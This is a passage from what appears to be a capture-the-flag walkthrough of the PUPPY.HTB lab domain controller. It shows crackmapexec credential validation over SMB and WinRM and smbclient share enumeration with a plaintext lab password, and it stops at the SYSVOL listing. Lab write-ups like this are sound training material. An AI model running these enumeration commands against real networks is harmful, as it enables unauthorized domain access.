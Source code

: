 Output:
```
SMB         10.129.18.222   445    DC  [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.18.222   445    DC  [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.18.222   445    DC  [+] Enumerated shares
SMB         10.129.18.222   445    DC  Share           Permissions    Remark
SMB         10.129.18.222   445    DC  -----           -----------    ------
SMB         10.129.18.222   445    DC  ADMIN$                         Remote Admin
SMB         10.129.18.222   445    DC  C$                             Default share
SMB         10.129.18.222   445    DC  DEV                            DEV-SHARE for PUPPY-DEVS
SMB         10.129.18.222   445    DC  IPC$            READ           Remote IPC
SMB         10.129.18.222   445    DC  NETLOGON        READ           Logon server share
SMB         10.129.18.222   445    DC  SYSVOL          READ           Logon server share
```
The credentials are valid for SMB. The user `levi.james` is part of the `PUPPY.HTB` domain.
The `DEV` share seems interesting. 

#### WinRM
Used `crackmapexec` to validate credentials against WinRM.
Command: `crackmapexec winrm 10.129.18.222 -u 'levi.james' -p 'KingofAkron2025!'`

Output:
```
SMB         10.129.18.222   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
HTTP        10.129.18.222   5985   DC               [*] http://10.129.18.222:5985/wsman
WINRM       10.129.18.222   5985   DC               [-] PUPPY.HTB\levi.james:KingofAkron2025!
```
The credentials are **not** valid for WinRM.

### SMB Share Enumeration

Let's explore the `DEV` share.

Attempted to list contents of the `DEV` share:
Command: `smbclient //10.129.18.222/DEV -U PUPPY.HTB/levi.james%KingofAkron2025! -c 'ls'`

Result: `NT_STATUS_ACCESS_DENIED`. The user `levi.james` does not have read access to this share directly.

Next, let's explore `NETLOGON` and `SYSVOL` shares.

#### NETLOGON Share
Command: `smbclient //10.129.18.222/NETLOGON -U PUPPY.HTB/levi.james%KingofAkron2025! -c 'ls'`

Result: The share appears to be empty.
```
  .                                   D        0  Fri Mar 21 01:33:44 2025
  ..                                  D        0  Wed Feb 19 06:46:56 2025

                5080575 blocks of size 4096. 1544623 blocks available
```

#### SYSVOL Share
Now, let's list the contents of the `SYSVOL` share.
Command: `smbclient //10.129.18.222/SYSVOL -U PUPPY.HTB/levi.james%KingofAkron2025! -c 'ls'`
